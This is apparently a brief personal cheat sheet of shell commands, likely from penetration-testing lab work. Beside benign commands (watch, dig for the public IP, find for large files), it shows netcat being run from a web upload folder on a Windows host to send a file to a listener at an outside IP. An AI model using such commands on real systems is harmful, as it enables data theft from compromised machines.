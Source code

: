 

## Watch
```
watch -n 0.5 -d ls -la
```

## Transfer file windows ---> linux
```
win    : C:\xampp\htdocs\gym\upload\nc.exe 10.10.15.130 5555 < CloudMe_1112.exe
linux  : nc -nlvp 5555 > CloudMe_1112.exe
```

## Find public ip
```
dig +short myip.opendns.com @resolver1.opendns.com
```
## how to find large files on linux
```
find -type f -exec du -Sh {} + | sort -rh | head -n 5
```
